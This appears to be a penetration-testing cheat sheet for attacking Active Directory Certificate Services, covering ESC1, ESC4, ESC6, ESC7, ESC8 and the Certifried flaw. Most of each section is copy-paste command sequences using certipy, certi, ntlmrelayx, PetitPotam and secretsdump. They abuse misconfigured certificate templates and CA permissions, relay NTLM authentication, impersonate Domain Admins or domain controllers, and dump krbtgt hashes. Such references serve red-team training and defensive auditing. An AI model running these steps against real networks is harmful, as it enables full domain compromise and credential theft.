






**Table of Content**
* [ESC1](#esc1)
* [ESC4](#esc4)
* [ESC6](#esc6)
* [ESC7](#esc7)
* [ESC8](#esc8)
* [Certifried](#certifried)
* [ADCS References](#adcs-references)
### ESC1

What makes a template vulnerable to ESC1 is when the following requirements are met:

| Attributes                             | Value                             |
| -------------------------------------- | --------------------------------- |
| `msPKI-Certificate-Name-Flag`          | `(0x1) ENROLLEE_SUPPLIES_SUBJECT` |
| `pKIExtendedKeyUsage`                  | Client Authentication             |
| `msPKI-Certificate-Application-Policy` | Client Authentication             |
| Enrollment Rights                      | Domain Users                      |

_Note that you would require one valid user to enroll the certificate_

1. List for available vulnerable templates using [certi](https://github.com/eloypgz/certi)
```bash
# Certipy
certipy find -u peter@range.net -p Password123 -dc-ip 192.168.86.183 -vulnerable -enabled -stdout

# Certi
python3 certi.py list range.net/peter:'Welcome1234' --dc-ip 10.8.0.2 --vuln --enabled

# output should normally be like this
Name: VulnUser
Schema Version: 2
Enroll Services: range-CA01-CA
Vulnerabilities: ESC1 - SAN Impersonation
msPKI-Certificate-Name-Flag: (0x1) ENROLLEE_SUPPLIES_SUBJECT
msPKI-Enrollment-Flag: (0x9) INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
msPKI-RA-Signature: 0
pKIExtendedKeyUsage: Client Authentication, Secure Email, Encrypting File System
msPKI-Certificate-Application-Policy: Client Authentication, Secure Email, Encrypting File System
SD Owner: S-1-5-21-3556610642-5733621-2059236447-500 range\Administrator
Permissions
  Enrollment Permissions
    Enrollment Rights
      S-1-5-21-3556610642-5733621-2059236447-512 range\Domain Admins
      S-1-5-21-3556610642-5733621-2059236447-513 range\Domain Users
      S-1-5-21-3556610642-5733621-2059236447-519 range\Enterprise Admins
[[..snip..]]
```

2. If requirements are met, then request the certificate using certi by specifying alternate name that include a high privileged user (ie Domain Admins)
```bash
# Certi
python3 certi.py req range.net/peter:'Welcome1234'@CA01.range.net range-CA01-CA -k -n --template 'VulnUser' --alt-name 'rangeadm'

# Certipy
certipy req -u peter@range.net -p Password123 -target ca01.range.net -ca 'range-CA01-CA' -template 'VulnUser' -upn 'Administrator@range.net'
```

3. A pfx certificate should now be retrieved. Run the following command to request tgt by using the ceritifcate by using [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py)
```bash
# impacket
python3 gettgtpkinit.py range.net/rangeadm -cert-pfx /opt/certi/rangeadm@range.net.pfx -pfx-pass 'admin' -dc-ip 10.8.0.2 /tmp/rangeadm.ccache

# certipy
certipy auth -pfx administrator.pfx -dc-ip 192.168.86.183
```

4. Now a ccache file should now be retrieved. Export the ccache file into `KRB5CCNAME` environment variable and [DCSync](#dcsync)
```bash
secretsdump.py range.net/rangeadm@10.8.0.2 -k -no-pass -just-dc -just-dc-user 'range\krbtgt'
```
_Note that you could also recover ntlm has with getnthash.py script_

### ESC4
This attack is possible when a low-privileged user has _Write Property_ or any other rights to modify template configuration to allow [ESC1](#esc1) attack to work. [modifyCertTemplate.py](https://github.com/fortalice/modifyCertTemplate) will be used in the following steps

1. Verify the vulnerable template with [certi]() 
```bash
python3 certi.py list range.net/peter:'Welcome1234' --dc-ip 10.8.0.2 --enabled

# vulnerable template
[[..snip..]]
Permissions
  Enrollment Permissions
    Enrollment Rights
      S-1-5-21-3556610642-5733621-2059236447-513 range\Domain Users
[[..snip..]]
```

2. Once vulnerable template has been verified. Modify the necessary requirements to proceed with [ESC1](#esc1) attack path
```bash
# msPKI-Certificate-Name-Flag = (0x1) ENROLLEE_SUPPLIES_SUBJECT
python3 modifyCertTemplate.py range.net/peter:'Welcome1234' -template ESC4 -value 1 -property msPKI-Certificate-Name-Flag -dc-ip 10.8.0.2
```

3. Now it should be vulnerable to [ESC1](#esc1)

### ESC6
This only applies to a CA that has an attribute `EDITF_ATTRIBUTEALTNAME2` in registry value. Registry path is at `Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\range-CA01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy`. This attribute means that even when a template is configured to use an AD Object Subject Name, we could specify a Subject Alternative Name. This also means that all templates will be vulnerable

1. Find a vunlerable template with **certi**. The output of a vunlerable template to ESC6 will be as follows.
```bash
certipy find -u peter@range.net -p Password123 -dc-ip 192.168.86.183 -vulnerable -enabled -stdout
[[..snip..]]
ESC6                              : Enrollees can specify SAN and Request Disposition is set to Issue. Does not work after May 2022
[[..snip..]]
```
2. Request a certificate with an Alternative Subject Name *(upn)*
```bash
certipy req -u peter@range.net -p Password123 -target ca01.range.net -ca 'range-CA01-CA' -template 'User' -upn 'Administrator@range.net'
```
3. Authenticate with the template retrieved.
```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.86.183
```

### ESC7
This misconfiguration does not apply on certificate template but Certificate Authority (CA) configuration and applies when compromised user/group does have `Manage CA` permission on the CA. Hence, this special ACL can be ab(use)d to add another ACL, `Issue and Managed Certificate` to the controlled user/group in order to *issue* an invalid certificate request based on the certificate ID. 

**Requirements**

| Attributes                   | Value | Pre-requisite |
| ---------------------------- | ----- | ------------- |
| ManageCA                     | True  |               |
| Issue and Manage Certificate | True  | ManageCA      |


1. Verify CA configuration with [certipy](https://github.com/ly4k/Certipy). It should identify that the CA configuration is vulnerable to ESC7 attack with `lowpriv` user having `ManageCA` permission on the CA server.

```bash
certipy find -u 'lowpriv@bionic.local' -p 'Password1234' -dc-ip 10.66.66.3 -stdout -text -enabled -vulnerable
```





2. We can basically configuration the CA! Now lets enable `Issue and Manage Certificates` on the compromised user `lowpriv`. Use [certipy](https://github.com/ly4k/Certipy) ca submodule with `-add-officer` flag as follows:

```bash
certipy ca -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -add-officer 'lowpriv' -dc-ip 10.66.66.3 -target-ip 10.66.66.3
```



3. Request **SubCA** certificate. This should throw errors `CERTSRV_E_TEMPLATE_DENIED`, basically saying we don't have permission to request for specified certificate. Please save the private key to be used later on.

```bash
certipy req -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -template SubCA -upn 'Administrator@bionic.local' -target 10.66.66.3 -dc-ip 10.66.66.3
```



4. Having `Issue and Manage Certificates` permission enabled. Denied template can easily be issued back. Use [certipy](https://github.com/ly4k/Certipy) ca submodule with `-issue-request` flag with request ID.

```bash
certipy ca -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -dc-ip 10.66.66.3 -target-ip 10.66.66.3 -issue-request 14
```



5. Retrieve back the denied certificate request. Note that this steps will require the previously saved private key `<request-id>.key`.

```bash
certipy req -u 'lowpriv@bionic.local' -p 'Password1234' -ca bionic-AD-CA -target 10.66.66.3 -retrieve 14
```



6. Proceed with [Pass the Certificate](#pass-the-certificate) attack.

### ESC8
This requires NTLMv2 relaying from target identity to the /certsrc/certfnsh.asp endpoint to request a certificate. Below are the steps to reproduce.  In case of successful coerce, relayed NetNTLM can be used to request a certificate as the account itself. 

1. Fire up `ntlmrelayx.py` to listen for incoming hash and relay it to target url
```bash
ntlmrelayx.py -t http://192.168.86.183/certsrv/certfnsh.asp -smb2support --adcs --template 'KerberosAuthentication'
```
2. Coerce authentication using [PetitPotam](https://github.com/topotam/PetitPotam). _Note that patched system doesnt allow unauthenticated coerce, then it would require a credential_
```bash
# unpatched DC
python3 PetitPotam.py 192.168.86.165 192.168.86.182

# patched DC
python3 PetitPotam.py -u 'peter' -p 'Welcome1234' -d 'range.net' 192.168.86.165 192.168.86.182
```
3. A base64 encoded ticket should be retrieved by now and save it in a file. Use gettgtpkinit.py to convert the pfx certificate to ccache format 
```bash
python3 gettgtpkinit.py range.net/dc01\$ -pfx-base64 $(cat /tmp/b64-cert.b64) -dc-ip 192.168.86.182 /tmp/out.ccache
```
4. Use getnthash.py to retrieve ntlm hash
```bash
python3 /opt/AD/PKINITtools/getnthash.py range.net/dc01\$ -key c5deec1a9ef6cbaf6da31cb46c1398fdc47c37630375896ee412f3462332503b -dc-ip 192.168.86.182
```
5. NTLM hash should now be retrieved and win!

Step 1, 3 and 4 can be skipped with **certipy**
1. Use relay module in certipy
```bash
certipy relay -ca ca01.range.net -template 'DomainController'
```
2. Coerce with any coercion methods that you'd prefer.
```bash
py Coercer.py -t 192.168.86.182 -l 192.168.86.193
```
3. Authenticate with the retrieved certificate with certipy's auth module.
```bash
certipy auth -pfx dc01.pfx -dc-ip 192.168.86.183
```

### Certifried
**User** template certificate would identify and distinguish the certificate with the User Principal Name(UPN) of the certificate as _SubjectAltRequireUpn_ is in the `msPKI-Certificate-Name-Flag` attributes. However, **Machine** template distinguish computer accounts' certificates only by `dnsHostName` attribute which can be edited out and cause confusion in the KDC and attacker can request certificate as DC instead of the legitimate computer and results in a [DCSync](#dcsync) attack.

1. Add a fake computer account with [PowerMad](https://github.com/Kevin-Robertson/Powermad) or [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
```bash
# Powermad
New-MachineAccount -MachineAccount 'FakeComputer' -Password (ConvertTo-SecureString -AsPlainText -Force 'Password123') -Domain domain.local -DomainController dc.domain.local -Verbose

# impacket
addcomputer.py domain.local/john:'Passw0rd1' -method LDAPS -computer-name 'JOHNPC' -computer-pass 'Password123'
```

2. Clear the SPNs attributes that relates to the current `dnsHostName` attribute.
```bash
addspn.py --clear -t 'FakeComputer$' -u 'domain\user' -p 'password' 'DC.domain.local'
```

3. Change dnsHostName attribute matching the domain controller
```powershell
# RSAT
Set-ADComputer THMPC -DnsHostName LUNDC.lunar.eruca.com
```

_Note that above steps 1-3 could be automated with my messy script [certifried.py](https://github.com/aniqfakhrul/certifried.py)_
```bash
python3 certifried.py range.net/peter:'Welcome1234' -dc-ip 192.168.86.182
```

4. Request certificate with [Certipy](https://github.com/ly4k/Certipy)
```bash
certipy req -u 'WIN-JLSLKICW6EP\$' -p 'PY2nc0ubG8WT' -target ca01.range.net -ca range-CA01-CA -template Machine
```

5. Authenticate with the requested certificate earlier
```bash
certipy auth -pfx dc01.pfx -dc-ip 192.168.86.182
```

6. [DCSync](#dcsync) and win
```bash
secretsdump.py domain.local/dc01\$@10.10.10.10 -just-dc -hashes :000000000000000
```

7. It is always recommended to cleanup the created computer account. _(This requires a privileged account)_
```bash
addcomputer.py range.net/Administrator:'Password123' -computer-name 'WIN-EAZXIGMWO1T$' -computer-pass 'mi#gKKWFlzxJ' -dc-ip 192.168.86.182 -delete
```

For the details explanation of the vulnerability (CVE-2022-26923), you may read the full article [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)

> **ADCS References**
>1. https://luemmelsec.github.io/Skidaddle-Skideldi-I-just-pwnd-your-PKI/
>2. https://www.thehacker.recipes/ad/movement/ad-cs/
>3. https://mayfly277.github.io/posts/GOADv2-pwning-part6/